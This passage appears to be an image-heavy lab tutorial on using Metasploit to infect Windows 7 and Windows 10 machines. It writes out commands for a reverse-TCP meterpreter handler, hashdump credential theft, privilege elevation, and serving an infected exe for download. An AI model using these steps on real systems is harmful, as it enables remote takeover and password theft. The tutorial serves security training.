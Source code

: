 - **use exploit/multi/handler**

**exploit -g -z**

- **Now you can donwload and execute the infected file on the windows 7 machine.**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cb58630b-b1cc-40cd-83a7-eb9b07b26083/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.ccb58630b-b1cc-40cd-83a7-eb9b07b26083/Untitled.png)

Click on the check box if you can't download the exe

**If everything is correct you will see this**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29973504-e373-4ab7-863a-d65013a81af2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c29973504-e373-4ab7-863a-d65013a81af2/Untitled.png)

**Now the spicy part, exploit the victim with meterpreter**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/650fd4d0-53eb-49ab-87a3-2265d7a34a4f/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c650fd4d0-53eb-49ab-87a3-2265d7a34a4f/Untitled.png)

- First, create a session with the victim computer with :

**You can run the following command to optain the hash and the username of the machine**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fd8ad56b-540a-4d90-b735-b266411f053e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cfd8ad56b-540a-4d90-b735-b266411f053e/Untitled.png)

- **getuid > optain the user of the session**
- **run hashdump > optain the password hash of the user**

**You can see the image, the user that we infect is not an administrator user, so we need to elevate privileges.**

**Elevate privileges on windows 7**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b25d5238-2d21-46ac-a701-baf2168d0e9c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cb25d5238-2d21-46ac-a701-baf2168d0e9c/Untitled.png)

- First, you can type "**background**" to go back to the msf5 console then :

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0063f5b2-df22-4a6b-9b88-0f8ac5e8e0b9/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c0063f5b2-df22-4a6b-9b88-0f8ac5e8e0b9/Untitled.png)

- **set payload windows/meterpreter/reverse_tcp**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c433b932-bf55-408a-8c93-0511b39248f0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cc433b932-bf55-408a-8c93-0511b39248f0/Untitled.png)

**You are now successfully administrator of the victim pc**

**Forth attack : create a payload to infect an windows 10 machine**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/395dd58c-0ffc-4de7-b936-710692ca2d21/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c395dd58c-0ffc-4de7-b936-710692ca2d21/Untitled.png)

Same ad before, you need to copy this exe file to you var/www/shared folder

and of course use chmod to change the privilege.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b39a6b92-dd66-49c8-a39d-c94e100b4c03/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cb39a6b92-dd66-49c8-a39d-c94e100b4c03/Untitled.png)

- **use exploit/multi/handler**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6ea9c3b6-10a5-4405-a4c3-34e132be0b94/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c6ea9c3b6-10a5-4405-a4c3-34e132be0b94/Untitled.png)
